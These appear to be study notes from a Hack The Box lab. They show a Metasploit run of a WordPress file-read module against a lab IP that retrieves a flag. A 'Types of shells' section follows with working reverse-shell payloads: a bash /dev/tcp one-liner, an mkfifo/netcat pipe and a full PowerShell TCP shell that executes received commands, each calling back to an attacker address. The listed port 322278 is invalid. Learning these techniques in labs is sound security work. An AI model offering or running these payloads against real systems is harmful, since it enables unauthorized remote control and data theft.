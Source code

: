 ## Challenge

```
msfconsole

[msf]>> search wordpress 2.7.10
[msf]>> use auxiliary/scanner/http/wp_simple_backup_file_read
[msf]>> show options
[msf]>> set RHOSTS 165.232.102.34
[msf]>> set RPORT 322278
[msf]>> set FILEPATH /flag.txt
[msf]>> exploit
[msf]>> exit

cat /home/htb-ac498562/.msf4/loot/202...tra_370627.txt
# HTB{my_f1r57_h4ck}
```

## Types of shells

### Reverse Shell

Get a quick reliable connection to the compromised host, but fragile.

* start a netcat listener on our machine
* execute on remote system a reverse shell command

```
nc -lnvp 1234		# -l : listen mode
					# -v : verbose mode
					# -n : disable DNS resolution
					# -p : specify port
ip a
```

Bash scripts :

```
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

Powershell script :

```
powershell -NoP -NonI -W Hidden -Exec Bypass 
		   -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};

while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {;
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2  = $sendback + "PS " + (pwd).Path + "> ";
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush()
};

$client.Close()
```
